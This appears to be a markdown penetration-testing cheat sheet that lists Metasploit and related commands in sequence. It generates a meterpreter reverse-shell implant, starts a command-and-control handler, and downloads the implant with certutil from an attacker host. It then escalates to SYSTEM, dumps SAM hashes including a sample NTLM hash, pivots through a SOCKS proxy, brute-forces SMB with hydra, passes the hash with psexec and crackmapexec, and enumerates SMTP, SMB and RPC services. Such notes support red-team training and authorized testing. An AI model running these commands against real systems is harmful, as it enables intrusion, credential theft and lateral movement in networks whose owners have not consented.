 # stable access
#### generate implant  
> msfvenom -p windows/x64/meterpreter_reverse_tcp LPORT=443 LHOST=***192.168.1.100*** -f exe -o implant.exe  
#### start c2  
> msfconsole  
> use exploit/multi/handler  
> set payload windows/x64/meterpreter_reverse_tcp  
> set lport 443  
> set lhost ***192.168.1.100***  
> run -j  
#### start webserver for implant download
> python3 -m http.server 80
#### windows LOLBIN basic download of implant
> certutil -urlcache -f http://***192.168.1.100***/implant.exe implant.exe  

# actions on target
#### attempt to get SYSTEM privs
> getsystem  
#### dump SAM
> hashdump
#### set up pivoting
##### in meterpreter session
> arp  
> ipconfig  
> netstat  
> background  
##### from msfconsole
> use post/multi/manage/autoroute  
> set session ***1***  
> set subnet ***192.168.2.0***  
> set netmask ***255.255.255.0***  
> run  
> use auxiliary/server/socks_proxy  
> set srvport 9050  
> set version 4a  
> run  
##### from bash
> proxychains nmap -Pn -p445 ***192.168.2.10*** --script=smb-enum*  
> proxychains hydra -p password1 -l administrator smb://***192.168.2.10***  
#### pass-the-hash
##### in meterpreter session
> hashdump  
> *Administrator:500:aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef*  
> background
##### from msfconsole
> use exploit/windows/smb/psexec  
> set rhosts ***192.168.1.9***  
> set smbdomain .  
> set smbuser Administrator  
> set smbpass aad3b435b51404eeaad3b435b51404ee:5835048ce94ad0564e29a924a03510ef  
> set payload windows/x64/meterpreter/bind_tcp  
> set lhost ***192.168.1.100***  
> run
##### from bash
> crackmapexec smb ***192.168.1.9*** -u "Administrator" -H 5835048ce94ad0564e29a924a03510ef --local-auth  
# smtp
#### msfconsole  
> search smtp_enum
#### bash
> smtp-user-enum -M VRFY -U /usr/share/metasploit-framework/data/wordlists/unix_users.txt -t ***192.168.1.10**
> nmap -p25 --script smtp-enum-users
# smb
#### bash
> enum4linux -r ***192.168.1.10***  
> smbmap -H ***192.168.1.10***  
> nmap -p445 --script smb-enum-shares ***192.168.1.10***  
> smbclient -N \\\\***192.168.1.10***\\***share*** -U ""  
#### rpcclient
> rpcclient -U "" -N ***192.168.1.10**  
> enumdomusers
> enumdomgroups
> enumdomains
> queryuser  
